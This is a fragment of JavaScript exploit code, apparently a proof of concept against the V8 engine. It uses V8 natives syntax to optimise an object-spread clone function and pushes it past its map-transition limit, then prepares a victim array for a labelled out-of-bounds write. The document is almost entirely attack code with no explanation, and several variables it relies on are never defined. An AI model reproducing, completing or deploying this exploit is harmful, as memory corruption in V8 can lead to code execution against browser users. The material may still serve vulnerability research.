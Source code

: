 ```js
let source2 = {pp0: 0, pp1: 1, pp2: 2, pp3: 3, get pp4() { return 4; },pp5: 5, pp6: 6, pp7: 7, pp8: 8, pp9: 9, pp10: 10, pp11: 11, pp12: 12, pp13: 13, pp14: 14, pp15: 15, pp16: 16, pp17: 17, pp18: 18, pp19: 19, pp20: 20, pp21: 21, pp22: 22, pp23: 23, pp24: 24, pp25: 25, pp26: 26, pp27: 27, pp28: 28, pp29: 29, pp30: 30, pp31: 31, pp32: 32, pp33: 33, pp34: 34, pp35: 35, pp36: 36, pp37: 37, pp38: 38, pp39: 39, pp40: 40, pp41: 41, pp42: 42, pp43: 43, pp44: 44, pp45: 45, pp46: 46, pp47: 47, pp48: 48, pp49: 49, pp50: 50, pp51: 51, pp52: 52, pp53: 53, pp54: 54, pp55: 55, pp56: 56, pp57: 57, pp58: 58, pp59: 59, pp60: 60, pp61: 61, pp62: 62, pp63: 63, pp64: 64, pp65: 65, pp66: 66, pp67: 67, pp68: 68, pp69: 69, pp70: 70, pp71: 71, pp72: 72, pp73: 73, pp74: 74, pp75: 75, pp76: 76, pp77: 77, pp78: 78, pp79: 79, pp80: 80, pp81: 81, pp82: 82, pp83: 83, pp84: 84, pp85: 85, pp86: 86, pp87: 87, pp88: 88, pp89: 89, pp90: 90, pp91: 91, pp92: 92, pp93: 93, pp94: 94, pp95: 95, pp96: 96, pp97: 97, pp98: 98, pp99: 99, pp100: 100, pp101: 101, pp102: 102, pp103: 103, pp104: 104, pp105: 105, pp106: 106, pp107: 107, pp108: 108, pp109: 109, pp110: 110, pp111: 111, pp112: 112, pp113: 113, pp114: 114, pp115: 115, pp116: 116, pp117: 117, pp118: 118, pp119: 119, pp120: 1, get pp121() { return 1; }, pp122: 1};
let source3 = {
  pp0: 1,
  pp1: 1,
  pp2: 1.1,
  pp3: 1,
  get pp4() {
    return 1;
  },
};
source1[`${prefix}${heapnumber_key}`] = oob_write_offset / 2;

function cloneic_mega(src) {
  var obj = { ...src, __proto__: null};  
  return obj;
}

function callback() {
  flag = false;
  cloneic_mega(source3);

  // no more transitions allowed
  const max = 1024 + 512;
  // to speed up debugging, u could change `kMaxNumberOfTransitions` into 128
  // const max = 128;

  for (let i = 0; i < max; i++) {
    let tmp = cloneic_mega(source3); 
    eval(`tmp.${prefix}__${i} = ${i}`);
  }
  init_victim_array();
  // %SystemBreak();
  return property_details_value;
}

function init_victim_array() {
  victim = new Array(0x2000);
  victim.fill(0);
  %DebugPrint(victim);
  console.log("sum: ", victim.reduce((a, b) => a + b));
  console.log("=============== oob write ==============");
}

%PrepareFunctionForOptimization(cloneic_mega);
cloneic_mega(source2);

flag = true;
cloneic_mega(source1);

console.log("sum: ", victim.reduce((a, b) => a + b));
// %SystemBreak();
```